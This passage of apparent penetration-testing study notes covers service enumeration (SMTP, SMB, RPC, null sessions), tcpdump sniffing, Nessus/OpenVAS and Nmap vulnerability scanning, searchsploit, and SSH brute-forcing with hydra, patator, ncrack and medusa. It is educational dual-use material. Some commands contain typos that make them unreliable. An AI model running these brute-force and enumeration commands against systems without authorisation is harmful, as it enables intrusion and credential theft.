  monlist query in ntpdc is used to obtain the list of the last 600 hosts that are connected to the server.

  

- **ntpq**
  Syntax: ntpq [-inp] [-c command] [host/IP_address] [...]
  This command monitors NTP daemon ntpd operations and determines performance.
  Following are the options that you can use along with ntpq command:

  | Options | Description                                                  |
  | ------- | ------------------------------------------------------------ |
  | -c      | Folowwing arguments is an interactive format command; multiple -c options may be given |
  | -d      | Debugging mode                                               |
  | -i      | Force ntpq to operate in interactive mode                    |
  | -n      | Output all host addresses in dotted-quad numeric format rather than host names |
  | -p      | Print a list of the peers as well as a summary of their state |

  For example:

- ntpq> version
  ntpq 4.2.0a@1.1196-r Mon May 07 14:14:14 EDT 2006 (1)

- ntpq> host
  current host is 192.168.0.1

  Note: Type “?” command to get the ntpq queries where you can be used to obtain additional NTP server information. “readlist” command is used to request the values of the variables in the internal variable list be returned by the server. If the association ID [associd] is 0 or rejected, the variables are expected to be system variable. Or else, they are treated as peer variables.

  

### Perform SMTP Enumeration
Mail systems commonly use SMTP with POP3 and IMAP that enables users to save the messages in the server mailbox and download them occasionally from the server. SMTP uses mail exchange servers to direct the mail via DNS. It runs on TCP port 25. 

Follow the below steps for performing SMTP enumeration:

- First, use telnet command to interact with SMTP and to collect list of valid users on the
  SMTP server.

- Next, use SMTP built-in-commands VREY, EXPN, RCPT TO:

  - VRFY -Validates users

  - EXPN - Tells the actual delivery addresses of aliases and mailing lists

  - RCPT TO - Defines the recipients of the message

**Use the SMTP VRFY command**

```
telnet 192.168.168.1 25
Trying 192.168.168.1 ...
Connected to 192.168.168.1 
Escape character is "*]"
220 NYmailserver ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
VRFY Jonathan
250 Super-User <Jonathan@NYmailserver>
VRFY Smith
550 Smith. User unknown
```


**Use the SMTP EXPN Command**

```
telnet 192.168.168.1 25
Trying 192.168.168.1 ...
Connected to 192.168.168.1
Escape character is "*]"
220 NYmailserver ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
250 NYmailserver Hello [10.0.0.86], pleased to meet you
EXPN Jonathan
250 Super-User <Jonathan@NYmailserver>
EXPN Smith
550 Smith. User unknown
```


**Use the SMTP RCPT TO Command**

```
telnet 192.168.168.1 25
Trying 192.168.168.1 ...
Connected to 192.168.168.1
Escape character is "*]
220 NYmailserver ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
250 NYmailserver Hello [10.0.0.86], pleased to meet you
MAIL FROM: Jonathan
250 Jonathan. Sender ok
RCPT TO:Ryder
250 Ryde. Recipient ok
RCPT TO: Smith
550 Smith. User unknown
```


### Perform IPSec Enumeration

You need to enumerate |Psec-enabled devices and Hosts. IPSec scan is a Win32 command line utility that can scan single or multiple IP addresses to identify |Psec-enabled devices and hosts. First, you need to scan all the IP addresses using IPSec scan, and once you identify ISAKMP services running on UDP port 500, then you can use tools like ike-scan to enumerate the sensitive information including encryption and hashing algorithm, authentication type, key distribution algorithm, SA, LifeDuration, and so on.

Syntax: **# ike-scan -M [IP address]**


You can also use ike-scan --showbackoff 10.0.0.3 10.0.0.6 command to get the IKE backoff patterns. By looking at the pattern or implementation, device can be guessed.


### Perform VoIP Enumeration

VoIP gateway/servers, IP-PBX systems, client software, client software, and user extensions are the useful information to be gained from VoIP network. You can attempt to gain access to the VoIP network for the purpose of recording conversations or to perform DoS to the company’s voice communications network. In some cases, if the organization has not followed the established “best practices” for VoIP, the team may attempt to use the VoIP network as a jumping-off point to conduct further compromise of the rganization’s network backbone.

Try to enumerate VolP-enabled devices and hosts. Enumerate SIP services to obtain sensitive information such as VoIP gateway/servers, IP-PBX systems, client software (softphones)/VoIP phones, user agent, IP addresses, and user extensions. You can do this by following metasploit command:

Syntax: **msf> use auxiliary/scanner/sip/enumerator**


Following are some of the tools helpful for VoIP enumeration:

- **Smap**
  Smap is a software tool that can find Asterisk boxes, ATAs, or SIP phones and PC with softphones enabled and listening VoIP ports. It scans a single or range of IP addresses for SIP-enabled devices.

- **Svmap**
  Svmap is inexpensive and open source scanner to determine enabled sip devices and PBX servers. It can scan a range of networks and can get all the phones on the network to ring simultaneously. While enumerating SIP devices, we can select the type of request. In the below figure, it shows that svmap is able to detect IP address and user-agent details.

  

### Perform SMB Enumeration

SMB protocol generally used for providing shared access to files, printers, and serial ports. By default, SMB runs directly on TCP 445 port or via NetBIOS API on UDP ports 137, 138, and TCP ports 137, 139.

Run the Zenmap scan to find the above ports open. Type **nmap -p 139,445 [IP address] ]** in the Command field and in the Target text field type IP address of the target host as shown in the below figure.


Because common sharing services or other unused services may provide you the doorway to break into a network’s security, SMB is a protocol that provides shared access to files, serial ports, printers, and communications between nodes on a network. If this service is running on a network, then there is a high possibility of enumeration via SMB. SMB enumeration provides a good amount of information about the target. Scan your own network for open SMB shares. You can use tools such as NetScanTools Pro and ShareEnum by domain/workgroup or IP range to find SMB shares.

- **NetScanTools Pro**

  Source: https://www.netscantools.com

  NetScanTools Pro is an integrated collection of Internet information gathering and network troubleshooting utilities for network professionals. Research for IPv4 addresses, IPv6 addresses, hostnames, domain names, email addresses, and URLs automatically or with manual tools. It is designed for the Windows operating system.

  

- **ShareEnum**

  Source: https://docs.microsoft.com

  This tool allows the user to view and monitor the computer’s file-sharing activities. It scans the system and creates a record of file-sharing activities that display information on the recipient, sender, file type, file name, and so on. It also displays the information on the network hosting the file transfer. It has two main components: NetShareEnum for networks and WNetEnumResource for Windows APIs.

  

### Perform RPC Enumeration
Remote procedure call (RPC) is a protocol that is used by a computer to communicate or request any other computer in the network without having to understand the network's details. 
You can enumerate the RPC service information by using the following rpcdump command:
Syntax: rpcdump [-v] [-p protseq] [target]

Now, to enumerate the service information and to get access to the RPC endpoint mapper, following protocol sequences can be used:

- ncacn_np (\pipe\epmapper named pipe through SMB)

- ncacn_ip_tco (direct access to TCP port 135)

- ncadg_ip_udp (direct access to UDP port 135)

- ncacn_http (RPC over HTTP on TCP port 80, 593)

You can also use tools like Nmap, NetScanTools Pro, etc., to enumerate RPC endpoints.

- **Zenmap**
  Source: https://www.nmap.org
  In Zenmap, type the following command in the Command field:
  Syntax: nmap -T4 -A [IP address] 

  In the Target text field, type the IP address as shown in the following figure. The results
  are highlighted with red box in the screenshot.

  

- NetScanTools Pro
  Source: https://www.netscantools.com
  In NetScanTools pro, navigate to Manual Tools (all) tab in the left-pane and scroll till you find *nix RPC Info icon as shown in the screenshot. Fill the fields like target IP address, port number, and so on as shown in the screenshot and click TCP Ping to perform RPC enumeration.

  

### Perform Null Session Enumeration
The null session is nothing but an anonymous access to the server, which means no need of authentication while establishing the session (no username and password credentials are used while establishing the session). The null session is usually performed to gather the information about the system. You can use remote procedure calls and API calls to gather this information. By using this technique, you can gather information on groups, services, passwords, active processors, and users. It is also used to perform DoS attacks and used for escalating privileges.

As a penetration tester, verify if null sessions are enabled on the target machine. If possible, establish null sessions and enumerate users in the system. 

**Note**: Windows Server 2008, Windows XP, Windows 7, and Windows 8 do not allow null session connections.

To establish the null session in Windows-based systems, use the following command:

- Syntax: **net use \\\10.10.10.12\IPC$ "" /u: ""**
  The preceding syntax connects to the hidden inter process communications share (IPC$) at IP address 10.10.10.12 as the built-in anonymous user (/u:*”) with a null (*”) password. If successful, you have an open channel over which to attempt various techniques that can be used to gather as much information as possible from the target, that is. network information. shares. users. groups. registry keys. and so on.

  To know the information on all commands of “net use”, you can add “/?” as shown in the figure:

  

### Perform Unix/Linux User Enumeration

Enumeration is the first activity while performing a penetration test in Unix/Linux environments. Assume that port scan has been performed with Nmap and determine that finder daemon is running on port 79.

You can use following commands to enumerate Unix/Linux users.

- **Rusers**
  Use this command to view list of users who are logged onto remote machines or machines on local network.
  Syntax: /usr/bin/rusers [-a] [-l] [-u| -h| -i] [Host ...]
- **Rwho**
  Use this command to view list of users who are logged in to hosts on the local network.
  Syntax: rwho [-a]

* **Finger**
  Understanding the working of finger daemon and how can it be abused:

  - Finger daemon is a finger service which runs in the background and stores the
    logged in user information like username and full name.

  - Generally, finger daemon works on port 79.

  - You can abuse the finger daemon functionality by running finger client along with
    the remote users IP address.

  - Use finger@ [ipaddress] command to enumerate the list of logged in users.

  - After acquiring the list of users, you can use finger <username>@ [ipaddress]
    command to retrieve the logged in user details. Use this command to gain
    information about system users such as user’s login name, real name, terminal
    name, idle time, login time, office location, and office phone numbers.
    Syntax: **finger [-l] [-m] [-p] [-s] [user ...] [user@host ... ]**

    

- enum4linux

  ```
  enum4linux [IP Address]
  ```

  

  

### Perform IPv6 Enumeration
IPv6 is an advanced version of IPv4 where it can support more number of hosts compared to |Pv4. You can scan and enumerate possible IPv6 address of a machine in the network. Use tools such as Enyx and IPv6 Hackit to enumerate possible IPv6.

- **ENYX**

  Source: https://github.com

  ENYX SNMP IPv6 enumeration tool used for grabbing the possible IPv6 of a machine through the SNMP protocol.

  

- Hackit

  Source: http://ipv6hackit.sourceforge.net

  Hackit is a scanning tool that provides you with a list of active IPv6 hosts. It can perform TCP port scanning and identify AAAA IPv6 host records.

  

### Nmap Scripting Engine Categories

| Options   | Description                                      |
| --------- | ------------------------------------------------ |
| All       | Runs all available NSE scripts                   |
| Auth      | Run only the Auth Scripts                        |
| Default   | Execute the basic defaults scripts               |
| Discovery | Discover information in depth about a target     |
| External  | Scripts that contact external resources          |
| Intrusive | Scripts which considered intrusive by the target |
| Malware   | Checks for open Backdoors and Malware            |
| Safe      | Run scripts that are not intrusive               |
| Vuln      | Discovers common vulnerabilities                 |

#### Discovery

Run the script to discover informationabout the provided targets

- Querying public registries

- SNMP-enabled devices

- Directory services

  ````
  nmap --scripts discovery 10.101.10.10
  ````

  

#### Nmap Server Message Block Scripts

```
[sherwinowen@parrot]─[/usr/share/nmap/scripts]
└──╼ $ls *smb*.nse
smb2-capabilities.nse           smb-enum-services.nse  smb-protocols.nse           smb-vuln-ms07-029.nse
smb2-security-mode.nse          smb-enum-sessions.nse  smb-psexec.nse              smb-vuln-ms08-067.nse
smb2-time.nse                   smb-enum-shares.nse    smb-security-mode.nse       smb-vuln-ms10-054.nse
smb2-vuln-uptime.nse            smb-enum-users.nse     smb-server-stats.nse        smb-vuln-ms10-061.nse
smb-brute.nse                   smb-flood.nse          smb-system-info.nse         smb-vuln-ms17-010.nse
smb-double-pulsar-backdoor.nse  smb-ls.nse             smb-vuln-conficker.nse      smb-vuln-regsvc-dos.nse
smb-enum-domains.nse            smb-mbenum.nse         smb-vuln-cve2009-3103.nse   smb-vuln-webexec.nse
smb-enum-groups.nse             smb-os-discovery.nse   smb-vuln-cve-2017-7494.nse  smb-webexec-exploit.nse
smb-enum-processes.nse          smb-print-text.nse     smb-vuln-ms06-025.nse
┌─[sherwinowen@parrot]─[/usr/share/nmap/scripts]
└──╼ $
```

#### Enumerate Shares

```
nmap --script smb-enum-shares.nse --script-args=unsafe=1 -p445 [IP Address]
```


#### Enumerate Users

```
namp --script smb-enum-users.nse --script-args=unsafe-1 -p445 [IP Address]
```

### HTTP Enumeration Auxiliary Scripts in Metasploit

#### cert

- Enumerate whether the cert is active or expired


#### dir_scanner

- Search for web server directories

- Similar to wfuzz and dirbuster

  

#### files_dir

- search for the presence of files

  

### Sniff the Network

Sniffing is a process of monitoring and capturing all data packets passing through a network. You can use sniffing tools such as Wireshark and Tcpdump to sniff the network. Sniffer turns the NIC of a system to the promiscuous mode to listen all the data transmitted on its segment. As a penetration tester, you should sniff the network and extract the following information:

- DNS traffic

- POP3/FTP/Telnet passwords

- Email traffic

- Router configuration

- Web traffic

- Telnet passwords

- Chat sessions

- Syslog traffic

#### Tcpdump: Capture Traffic using Tcpdump
- **Capturing and displaying captured packets in both HEX and ASCII format with tcpdump -XX**

  ```
  tcpdump -xx -c 20 -s 0 -i eth0
  ```

  [](images/image-20210823174945170.png)

  

  

- **Filter traffic by protocol**

  ```
  tcpdump -c5 -s 0 -i eth0
  ```

  

  

- **Writing packet captured in file and reading it**

  ```
  tcpdumd -w packetcapture.pcap -c 5 -s 0 -i eth0
  ```

  

  ```
  tcpdump -tttt -r packetcapture.pcap
  ```

  

- Filter traffic by header

  Filtering and displaying only SYN packets. It displays TCP headers that contain a TCP flag byte equal to 2 flag (Syn flag set)

  ```
  tcpdump -c 5 -s 0 -i eth0 'tcp[13]==2'
  ```

  


### Some of the additional commands of tcpdump are mentioned below:
- To capture packets from specific interface

```
tcpdump -i etho
```

- To capture N number of packets

```
tcpdump -c 5 -i ethO
```

- To display captured packets in ASCII

```
tcepdump -A -i ethO
```

* To display packets in HEX and ASCII

```
tcpdump -XX -i ethO
```

-  To capture and save packets in a file

```
tcpdump -w 0001.pcap -i eth0
```

-  To read captured packets file

```
tcpdump -r 0001.pcap
```

- To capture TCP packets

```
tcpdump -i ethO tcp
```

- To capture packet from specific port

```
tcpdump -i ethO port 22
```

- To capture packets from source IP

```
tcpdump -i ethO src 192.168.0.2
```

-  To capture packets from destination IP

```
tcpdump -i ethO dst 50.116.66.139
```


## Vulnerability Assesment

Vulnerability assessment is a process of identifying vulnerabilities or loopholes in any organizational network infrastructure. Vulnerability assessment is a part of penetration testing where a penetration tester performs vulnerability assessment to identify the loopholes of the target network and find out the entry points to perform exploitation. Based on that information, now we will find known vulnerabilities both online and offline.

Source: http://www.pentest-standard.org

“Before performing a penetration test it is beneficial to determine the maturity level of the client’s security posture. It is often a good idea to perform a vulnerability analysis first before penetration testing.”

### Perform Internal Vulnerability Assessment
Internal vulnerability assessment is performed to assess the network and system controls of internal security posture. Systems or devices within internal network are evaluated for vulnerabilities like Trojans, malware, misconfiguration, and so on. Organizations invest more in protecting their network externally, but they also should secure their internal network from fraud employees and temporary contractors.

Internal vulnerability assessment can have from any of two potential attacker groups:

- Unprivileged guests: This group has no privileges other than some general information like standard LAN jack. These are the members who try to gain access through firewall but not yet gained any network privileges. 

- Trusted internal users: They have all the privileges and access to standard information of the network.

Once you find out what ports respond as being open by port scanning a network or individual machines, you can begin to determine vulnerabilities present on the services used by these ports. The goal of running a vulnerability scanner is to identify network devices open to known vulnerabilities.

### Vulnerability Scanning Objectives
- Identify the attack surface
- Determine the risk
- Assess the severity of the findings
- Draft a report of the findings
- Develop a remediation plan

### Network Vulnerability Scanning
- Look at the data at the network level
- Assess the services accessible to the scanner
- The DMZ and other accessible zones are investigated
- Review the protocol and traffic of the subnet... routing
- Determines the attack surface atthe network layer and transport layer
  - TCP
  - UDP

### Host Vulnerability Scanner

- Review the attack surface on the host machine
- Assessment of the applications that are installed
- An investigation of the processes running on the machine
- Works best with credentials

### Scanner Configuration
- Usually involves setting scan parameters
- Set the network protocols and ports to test
- Identify the method of host discovery
- Create a policy
- Most scanners have templates that assist

### Scan Templates
**Nessus**

- Contains a large number of templates for different scanning situations
- Dependent on the license that you are registered with:
  - Home
    - Limited templates

### Scanner Configuration OpenVAS

- Free and open source

- Fork of the original Nessus project

- Maintained by the CTO of Tenable

  - Original creator of Nessus

- Is powerful, but takes more time than Nessus to complete a scan

### Nessus

#### Nessus Scanners Listing

- Allows for control over different scanners


#### Plugins

- Every audit is coded as a plugin within Nessus
- More than 80,000 plugins in Nessus
- Updating the plugins is critical
  - Online
    - Checks for updates every 24 hours if connected to the Internet
    
  - Offline

      - Requires challenge and response codes
        - Needs the key that is provided from tenable

      

#### Plugin Familes

Different plugins based on requirements

1. Operating system
2. Application, etc.


#### Sub-plugins

- Each plugin can have sub-plugins
- More granular information about the check


#### Built-in Policies
- Nessus provides a variety of scan templates
- Most common
  - Basic network scan
    - Provides a comprehensive scan for most networks
    - Does not scan all 65536 ports
      - Have to change the settings for that
        


#### Available Plugins

- Each plugin represents an audit check

- Access the plugins

  - New Scan | Advance Scans | Plugins

    

#### Custom Scan
When you elect to do a custom scan, you have control over what plugins loaded, and you can manually select the ones you need

- Makes fora more granular approach to the testing
- Can take time to configure
- You need to have knowledge of what you are looking for to get the best results

#### Tailoring Scans


##### Discovery

- Can select ports
- Speed
- Port scanner settings
- Protocols for pinging potential targets:
  - Useful when firewall is on
  - ICMP blocked by default


##### Assessment

- Can set more specific scan parameters


##### Report

- Two components
  - Processing
  - Output


##### Advanced

- Configure performance parameters

- Low bandwith links

  

### OpenVAS 

- Similar to Nessus
- Contains plugins
- Same as Nessus concepts

### Perform Network Vulnerability Scanning using Network Vulnerability Scanners
- **QualysGuard**
  Source: https://www.qualys.com
  Qualysguard helps in protecting the IT infrastructure in accordance with the company’s policies and procedures. It identifies the internal threats and develops methods required to protect the network. Features of the Qualysguard network vulnerability tool are as follows:
  - It identifies the operating system, open ports, and active services running on a system
  - Examines the network continuously for any changes
  - Provides an approach to prioritize the remediation steps
  - Assists with scanning the internal network for vulnerabilities
  - Provides reports to the user to understand the security of the network


- **Nessus**
  Source: https://www.tenable.com
  A vulnerability scanner that scans the following types of vulnerabilities:
  - Hackers getting access to important data in the system
  - Misconfiguration
  - Password attack
  - Denial of service against the TCP/IP stack
  - Preparation of PCI-DSS audits

- **GFI LanGuard**
  Source: https://www.gfi.com
  GFI LanGuard scans your operating systems, virtual environments, and installed applications through vulnerability check databases such as OVAL and SANS Top 20. GFI LanGuard enables you to analyze the state of your network security, identify risks, and address how to act before it is compromised.


- **OpenVas**
  Source: http://www.openvas.org
  OpenVAS provides a comprehensive and powerful vulnerability scanning and management solution. OpenVAS receives support and contributions from many individuals and organizations (penetration testers, power users, security researchers, academia, and so on), adding to the quality and reliability of the solution.

- **Nmap**

  Perform Vulnerability Scanning using Nmap
  You can also perform vulnerability assessment using Nmap. You can use in-built NSE script available at /usr/share/nmap/scripts for scanning specific vulnerability.



Scripts can be run from an authorized third party unless you trust the author, because scripts cannot be run in a sandbox which can lead to accidental or malicious damage to your system or even evade the system privacy.

```
--script <filename>|<category>|<directory>|<expression>[,...]
```

The above syntax runs a script scan which contains the list of filenames, category, directory, and expressions separated with comma. Each element in the syntax is first taken as an expression, then category, and finally file or directory name. 

Consider the below syntax used to check if an FTP server allows anonymous login.

```
nmap -script ftp-anon -p 21 <target ip address>
```

ftp-anon is used to check if an FTP server allows anonymous login.


### Vulnerability Assessment Reports 
**Security Vulnerability Report**

This report gives information about:

- New vulnerabilities
- Open ports and detected services
- Suggestions for remediation
- Links to patches

**Security Vulnerability Summary**
This report is produced for every server after scanning and provides details of:

- Current security flaws
- Resolved prior detected vulnerabilities


Vulnerability assessment report describes the entire process of performed assessment and also discusses the identified vulnerabilities during the process. The vulnerability assessment report consists of security vulnerability report and security vulnerability summary. Security vulnerability report gives the information about new vulnerabilities, open ports and detected services, suggestions for remediation, links to patches, and so on. Security vulnerability summary provides the information about current security flaws, resolved prior detected vulnerabilities, and so on.

Following are some of the guidelines to write a good vulnerability assessment report:

- **Title of the vulnerability**: This plays an important role in the first impression of the reader.
- **Description**: Readers does not like to spend more time in reading; it is better to keep it short, clear, and specific. Usage of references or links will help in better understanding.
- **Proof of concept**: It is always better to treat reader as a new to this thing. Provide a step-by-step procedure to perform for vulnerability.
- **Tools**: Mention the tools helpful in finding the vulnerability. 
- **Solution**: Provide a clear solution for the problem. Do not keep it too brief and explain them all the possible solutions to fix the vulnerability.

### Map the Service Version with the Associated Security Vulnerabilities
Vulnerability analysis can be performed manually by searching online in the Exploit Database or can use automated vulnerability scanners like Open-Vas and Nessus. But scanning with automated tools is tough because it takes a lot of time, requests, and traffic to complete the scan; sometimes the excessive traffic might lead to DOS crash, so it is advised to take the prior permission when performing such kind of scans on hosts. One more point to keep in mind while using automated tools is to use multiple tools to rule out false positives. So, it is better to opt manual search for vulnerabilities instead of totally relining on automated scanners. 

Manually, you can type the product or service name on the Google to identify the known vulnerabilities of that service as shown in the figure. Another way to search for vulnerabilities is to directly go to the CVE details website and search for any specific software product for known vulnerabilities, for example, IIS 7.5. The details of bugs can be displayed as shown in the below screenshot.


### Scan Analysis Process

- Take the result and review them

- Identify the points of weakness

  - Hosts

  - Protocol

  - Application, etc.

    

- Investigate the listing of vulnerabilities


- Interogate the vulnerability information


- Evaluate the recommended solution


- See if Nessus has provided an output

- Can use this in report as well


- Review the risk information and additional details
  - CVSS (Common Vulnerability Scoring System)
  - Vulnerability information
  - Exploitable with
  - References


- Examine at least one reference

  - CVE (Common Vulnerability Exposure)

    

  - BID (BugtraqID)

    

- Review the information and compare to your scanner data

### Scan Analysis at the Network Level
- Before youscan a production network

  - Scan a test machine

- Evaluate the scanning activity at the network level

  - Use a protocol analyzer

- Tools

  - Tcpdump

    - Command line
  
  - Wireshark
    - Gui 
    - Advanced protocol dissection

### Nessus Scan Results

1. Hosts
2. Vulnerabilities
3. Remediation
4. History


### Attack Scripting

- Nessus and OpenVAS have scripting capability
- Format is in the Nessus Attack Scripting Language
  - NASL is generally similar to C and Perl, so if you can work in either of those a little, you should be fine

**NASL Banner Grab**

```
socket = open_sock_tcp(23);
if (! socket) exit(0);
mesg = raw_string(0x0d);
send(socket:socket, data:mesg) ;
banner = recv_line(socket:socket, length:4096);
banner += recv_line(socket:socket, length: 4096) ; display (banner) ;
```

### Nmap Vulnerability Scanner

- The scripting engine contains multiple scripts for scanning for vulnerabilities

  ```
  ls *vuln*.nse
  ```

  ```
  ┌─[sherwinowen@parrot]─[/usr/share/nmap/scripts]
  └──╼ $ls *vuln*.nse
  afp-path-vuln.nse           http-vuln-cve2014-2128.nse       smb2-vuln-uptime.nse
  ftp-vuln-cve2010-4221.nse   http-vuln-cve2014-2129.nse       smb-vuln-conficker.nse
  http-huawei-hg5xx-vuln.nse  http-vuln-cve2014-3704.nse       smb-vuln-cve2009-3103.nse
  http-iis-webdav-vuln.nse    http-vuln-cve2014-8877.nse       smb-vuln-cve-2017-7494.nse
  http-vmware-path-vuln.nse   http-vuln-cve2015-1427.nse       smb-vuln-ms06-025.nse
  http-vuln-cve2006-3392.nse  http-vuln-cve2015-1635.nse       smb-vuln-ms07-029.nse
  http-vuln-cve2009-3960.nse  http-vuln-cve2017-1001000.nse    smb-vuln-ms08-067.nse
  http-vuln-cve2010-0738.nse  http-vuln-cve2017-5638.nse       smb-vuln-ms10-054.nse
  http-vuln-cve2010-2861.nse  http-vuln-cve2017-5689.nse       smb-vuln-ms10-061.nse
  http-vuln-cve2011-3192.nse  http-vuln-cve2017-8917.nse       smb-vuln-ms17-010.nse
  http-vuln-cve2011-3368.nse  http-vuln-misfortune-cookie.nse  smb-vuln-regsvc-dos.nse
  http-vuln-cve2012-1823.nse  http-vuln-wnr1000-creds.nse      smb-vuln-webexec.nse
  http-vuln-cve2013-0156.nse  mysql-vuln-cve2012-2122.nse      smtp-vuln-cve2010-4344.nse
  http-vuln-cve2013-6786.nse  rdp-vuln-ms12-020.nse            smtp-vuln-cve2011-1720.nse
  http-vuln-cve2013-7091.nse  rmi-vuln-classloader.nse         smtp-vuln-cve2011-1764.nse
  http-vuln-cve2014-2126.nse  rsa-vuln-roca.nse                vulners.nse
  http-vuln-cve2014-2127.nse  samba-vuln-cve-2012-1182.nse
  ```

- The easiest and simplest method is to just run all scripts

- This is not the most efficient, but it is worth attempting, especially in CTF scenarios 

  ```
  nmap -sV --version-all -p- --script vuln 192.168.177.114
  ```

  - This scan will scan all ports and run all vulnerability scripts
    - Very time consuming!

#### Windows Vulnerability Script Results

```
nmap -sV --version-all -p- --script vuln 10.10.10.10
```


#### Linux Vulnerability Script Results

```
nmap -sV --version-all -p- --script vuln 10.10.10.9
```


#### SMB Vulnerability Scanning

```
nmap -p 445 --script=smb-vuln-ms17-010.nse [IP Address]
```

#### Heartbleed Vulnerability Scanning

```
nmap -p 443 --script ssl-heartbleed -sV [IP Address]
```

### Custom Vulnerability Script

- The correct way to report vulnerabilities in NSE is through the library vulns. Let's review the process of reporting a vulnerability

  ```
  local vuln = { title = "<TITLE GOES HERE>",
    			   state = vulns.STATE.NOT_VULN,
    			   references = {"<URL1>", "URL2"},
  			   description = [[<DESCRIPTION GOES HERE> ]],
  		 	   IDS = {CVE = "<CVE ID>", BID = "BID ID"},
  			   risk_factor = "High/Medium/Low" }
  ```

### Vulnerability States

```
STATE_MSG = {
  [STATE.LIKELY_VULN] = 'LIKELY VULNERABLE',
  [STATE.NOT_VULN] = 'NOT VULNERABLE',
  [STATE.VULN] = 'VULNERABLE',
  [STATE.DoS] = 'VULNERABLE (DoS)',
  [STATE.EXPLOIT] = "VULNERABLE (Exploitable) ',
  [bit.bor (STATE.DoS, STATE.VULN)] = 'VUNERABLE (DoS)',
  [bit.bor (STATE.EXPLOIT, STATE.VULN)] = 'VULNERABLE (Exploitable)',
}
```


### Windows Exploitation

After identifying the vulnerabilities related to the target operating system, if you find the installed OS on the victim machine is Windows, then you need to attempt various techniques to exploit the Windows operating system to gain the root access or escalate privileges.

#### Reality 
- We have to have vulnerabilities
- Without them there is no hack!
- The good news is that all systems have some sort of flaws
- There are many exploit references, and to get deep into it requires some form of code understanding
  - This takes time
  - Not all want to get that deep into it
  - Use frameworks etc.

#### Operating Systems
- There will still be flaws and bugs in any OS
- Fewer of them as time passes
- Windows Server 2019 is pretty tight
- The processes we have covered are used to find the weaknesses to attack  

#### Exploitation
- Validation of vulnerabilities
- Compromise the victim

  - Use vulnerabilities that were discovered during the methodology

    - Not all vulnerabilities will be exploitable
- Deliver the payload
  - Once the victimis compromised, what should happen?
    -  Leave a record proving access
    -  Grab files, plant a keystroke logger, crack passwords etc.
- From this point of access
     - Footprintand enumerate other systems
     - Remember the rules of engagement

#### Exploiting Targets
- Exploits are highly specific
- Have to know the build and revision number
  - Windows
    - Service pack
  - Linux
    - Kernel data
- In Metasploit view with show targets
  

#### Data Collection

**Collect enough data to:**

- Discover potential vulnerabilities

  - Banners of the services (SMTP, SSH, HTTP/HTTPS, FTP, POP3)

  - OS identification

- Choose the appropriate exploit to match the target
  - Not an exact science

- Narrow the field of attack vectors 
  - Highest privilege result is preferred

#### Finding Exploits

- We need to find exploits

- Most vulnerability lists do not post exploits
  - Except for bugtraq

- Can use http://seclists.org
  - A complete listing of security sites and feeds

- Ideal exploits are proof of concept (POC)
- Once you get the exploit:
  - Have to review it
    - Could be a trojan horse or other form of malware
    - Rarely documented
    - Require compilers or interpreters
    - May not work
  
  - Thoroughly test it in a lab before deployment

#### Exploit Publishers
**Exploit db**

- www.exploit-db.com

- Commonly have zero-day exploits

  

**Packetstorm** 

- www.packetstormsecurity.com

  

### Exploit DB in Parrot
- We can use searchsploit to look for exploits

  ```
  ┌─[root@parrot]─[/home/sherwinowen]
  └──╼ #searchsploit shellshock remote
  ------------------------------------------------------------------------------------ ---------------------------------
   Exploit Title                                                                      |  Path
  ------------------------------------------------------------------------------------ ---------------------------------
  Advantech Switch - 'Shellshock' Bash Environment Variable Command Injection (Metasp | cgi/remote/38849.rb
  Apache mod_cgi - 'Shellshock' Remote Command Injection                              | linux/remote/34900.py
  Bash - 'Shellshock' Environment Variables Command Injection                         | linux/remote/34766.php
  Bash CGI - 'Shellshock' Remote Command Injection (Metasploit)                       | cgi/webapps/34895.rb
  Cisco UCS Manager 2.1(1b) - Remote Command Injection (Shellshock)                   | hardware/remote/39568.py
  dhclient 4.1 - Bash Environment Variable Command Injection (Shellshock)             | linux/remote/36933.py
  GNU Bash - 'Shellshock' Environment Variable Command Injection                      | linux/remote/34765.txt
  IPFire - 'Shellshock' Bash Environment Variable Command Injection (Metasploit)      | cgi/remote/39918.rb
  NUUO NVRmini 2 3.0.8 - Remote Command Injection (Shellshock)                        | cgi/webapps/40213.txt
  OpenVPN 2.2.29 - 'Shellshock' Remote Command Injection                              | linux/remote/34879.txt
  Postfix SMTP 4.2.x < 4.2.48 - 'Shellshock' Remote Command Injection                 | linux/remote/34896.py
  SonicWall SSL-VPN 8.0.0.0 - 'shellshock/visualdoor' Remote Code Execution (Unauthen | hardware/webapps/49499.py
  TrendMicro InterScan Web Security Virtual Appliance - 'Shellshock' Remote Command I | hardware/remote/40619.py
  ------------------------------------------------------------------------------------ ---------------------------------
  Shellcodes: No Results
  ```

### Exploits

**If it is a compiled language:**

- Look for the readme file
- Is there a configure file?
  - ./configure
  - make
  - make install
  - make clean
- Compile the rest
    - gcc or g++

- Scripting language

  - Load the code in an interpreter and test it

- Always test in a lab or sandboxed environment
- Analyze it at the packet level

### Full Disclosure

- We need to frequent the lists that are full disclosure
  - https://seclists.org/fulldisclosure/


### Questions to Ask about the Exploit
- Location of the attacker

  - Remote is preferred

  - Local can be used for internal testing or when we gain access via a remote vector

- Are exploits available
  -  Is it in a framework or have to build the code
- Impact of the exploit
    - Denial of service are not much use
- Complexity of the exploit

### Location

- **Remote**
  Network is reachable: As mentioned is ideal

- **Local**

  Physical: At the host machine

- **Subnet**
  Present on the same subnet (man in the middle)
- **Intranet**
  Inside the internet firewall

### Complexity
- **Coding skills**
  - C
  - Java
  - Php
  - Others
- **State**
- **Decryption or decoding required**

### What about Authentication
- Is it required?
- Data analysis should reveal potential password attack vectors
  - Ssh
  - Smb
  - rdp
- Most web apps need authentication

### You do not Always have to run an Exploit to own the box!
- Have you ever configured a router and made a mistake?
- We can always get access because of admin errors etc.
- Services can be brute forced!

### Remote Password Attack
**1. Hydra is the tool of choice**

- Can attack most of the desired services

  ```
  hydra -e nsr -L sqlmap.txt 192.168.177.200 ssh -t 4
  hydra -l jason -P /usr/share/wordlists/rockyou.txt <IP> <protocol>
  ```

**2. Patator**

  ```
  patator ssh_login host=192.168.177.200 user=root password=FILE0 0=/usr/share/wordlists/rockyou.txt
  ```


**3. Ncrack**

```
ncrack -v --user sys -P /usr/share/wordlists/rockyou.txt ssh://<IP>
```


**4. Medusa**

```
medusa -h 192.168.177.200 -u root -P rockyou.txt -M ssh
```

- U = use a file


**rdesktop**

```
rdesktop -u administrator -p Pa$$w0rd123 192.168.177.147
```


### Wpscan for Exploitation 
- Brute force passwords

  ```
  wpscan --url [wordpress url] username [username to brute force] --password [path to wordlist] --threads [number of threads to use]
